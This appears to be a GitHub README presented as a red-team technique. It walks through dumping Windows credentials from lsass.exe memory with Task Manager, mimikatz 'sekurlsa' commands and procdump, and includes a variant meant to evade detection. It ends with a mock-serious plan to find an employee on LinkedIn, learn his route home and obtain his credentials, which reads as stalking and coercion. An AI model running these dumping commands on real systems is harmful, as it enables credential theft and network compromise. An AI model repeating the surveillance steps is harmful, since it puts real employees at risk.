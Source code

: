 # the_new_redteaming_technique

First OF all, Create a minidump of the lsass.exe using task manager (must be running as administrator):

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTRoRHqLqkBWb_aw4%2FScreenshot%20from%202019-03-12%2019-55-27.png?alt=media&token=0c8f45d6-6425-4d5a-8e3f-1f30ff4577ec)

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTYMBz-VWM11dadu6%2FScreenshot%20from%202019-03-12%2019-56-12.png?alt=media&token=f92b493e-f1aa-4a46-8edf-d64eebdd9f65)




Second , Swtich mimikatz context to the minidump:

sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nT6tDqGhJv_fdKOnw%2FScreenshot%20from%202019-03-12%2019-54-15.png?alt=media&token=cccc99d5-632c-40aa-903d-d89c21fb1133)







Now it's a time for Procdump

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nX2I6LfCsWLSkjzwg%2FScreenshot%20from%202019-03-12%2020-11-28.png?alt=media&token=43e85fd4-36bf-43ba-9fd9-62d43712e1e8)




![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nXVaJRSNnJZayxbL_%2FScreenshot%20from%202019-03-12%2020-13-25.png?alt=media&token=4e87b3ef-c690-4b43-b3f6-0ba244495398)






After doing all of the above steps, you need to do the following steps: 

1- try to figure the needed employee from Linkedin profile of the company 


![alt text](https://logos-download.com/wp-content/uploads/2016/03/LinkedIn_Logo_2019.png)



2- try to know when the employee will leave the work and which road he will take 


![alt text](https://logos-download.com/wp-content/uploads/2016/05/Google_Maps_logo_icon.png)


3- use this technique to get his creds 

![alt text](https://i.ibb.co/vQVQXkQ/279407320-359224712933498-202643383967457168-n.jpg)




PS : all screen shots are from https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz
